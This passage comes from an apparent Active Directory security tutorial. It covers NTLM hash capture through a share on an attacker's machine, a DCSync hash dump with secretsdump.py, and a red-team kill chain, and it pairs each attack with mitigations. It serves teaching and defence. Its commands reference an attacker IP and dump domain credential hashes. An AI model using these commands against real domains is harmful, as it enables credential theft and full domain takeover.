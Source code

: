 ```bash
\\attacker_ip\share

```

Captured hashes can be cracked (NetNTLMv2).

> 🛡️ Mitigation:
> 
> - Disable LLMNR, NBT-NS
> - Use SMB signing
> - Don’t auto-connect to unknown shares

---

## 🧬 7. DCSync Attack (Full DC Compromise)

Once you get **Replicating Directory Changes All** rights, you can extract password hashes **of any domain user** — including krbtgt.

```bash
secretsdump.py -just-dc -k activedirectory.local/attacker@DC1

```

> 🛡️ Mitigation:
> 
> - Restrict DCSync rights
> - Regularly rotate krbtgt password
> - Alert on 4662 & 4670 event IDs

---

## 🔗 8. Bonus: Create a Red Team Kill Chain

1. **Initial Access** – Phish or gain creds of a low-priv user
2. **Enumeration** – PowerView to map users, GPOs, groups
3. **Kerberoasting** – Crack weak SPN passwords
4. **Privilege Escalation** – Find DA path via BloodHound
5. **Lateral Movement** – PtH, WinRM, scheduled tasks
6. **Domain Persistence** – Backdoor GPO, golden ticket
7. **Exfiltration** – Extract hashes, secrets, and logs

---

## 🧠 Practice this like muscle memory.

Run attacks. Break it.

Then ask yourself: *how do I detect and prevent this?*

---

### **Part 10: Detection & Monitoring in Active Directory**
